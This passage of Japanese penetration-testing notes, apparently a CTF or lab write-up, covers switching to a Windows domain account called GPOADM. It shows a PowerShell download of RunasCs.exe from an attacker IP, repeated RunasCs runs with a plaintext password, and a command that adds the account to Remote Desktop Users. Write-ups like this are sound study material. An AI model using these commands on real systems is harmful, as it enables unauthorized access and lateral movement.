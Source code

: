 RunasCs.exeを使って、GPOADMにアカウントを切り返る
ファイルを送る
```sh
$url = 'http://10.10.16.15:8888/RunasCs.exe'
$dest = 'C:\Users\Amelia.Griffiths\Desktop\RunasCs.exe'
(New-Object System.Net.WebClient).DownloadFile($url, $dest)
Test-Path $dest
```

RunasCs.exeはログオンタイプが違うとのことで、ログインできない
```bash
PS C:\Windows\system32> cd C:\Users\Amelia.Griffiths\Desktop
PS C:\Users\Amelia.Griffiths\Desktop> .\RunasCs.exe GPOADM 'SuperPass123!' "cmd /c whoami"
[-] RunasCsException: Selected logon type '2' is not granted to the user 'GPOADM'. Use available logon type '3'.
PS C:\Users\Amelia.Griffiths\Desktop> .\RunasCs.exe GPOADM 'SuperPass123!' "cmd /c whoami" -l 3
[*] Warning: User profile directory for user GPOADM does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The function CreateProcessWithLogonW is not compatible with the requested logon type '3'. Reverting to the Interactive logon type '2'. To force a specific logon type, use the flag combination --remote-impersonation and --logon-type.                                                                                                                                                                                                                                   
[-] RunasCsException: Selected logon type '2' is not granted to the user 'GPOADM'. Use available logon type '3'.                                                                                                                            
PS C:\Users\Amelia.Griffiths\Desktop> .\RunasCs.exe GPOADM 'SuperPass123!' "cmd /c whoami" --remote-impersonation -l 3

No output received from the process.
```
その後もログインタイプを9にしたりしたが、成功しない

RDP権限をGPOADMにつける
```bash
PS C:\Users\Amelia.Griffiths\Desktop> net localgroup "Remote Desktop Users" GPOADM /add
```

本当についているのか確認
```bash
PS C:\Users\Amelia.Griffiths\Desktop> net user GPOADM /domain
User name                    gpoadm
Full Name                    gpoadm                                                                                                                                                                                                         
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/8/2025 4:34:14 AM
Password expires             Never
Password changeable          10/9/2025 4:34:14 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/8/2025 4:39:21 AM

Logon hours allowed          All

Local Group Memberships      
```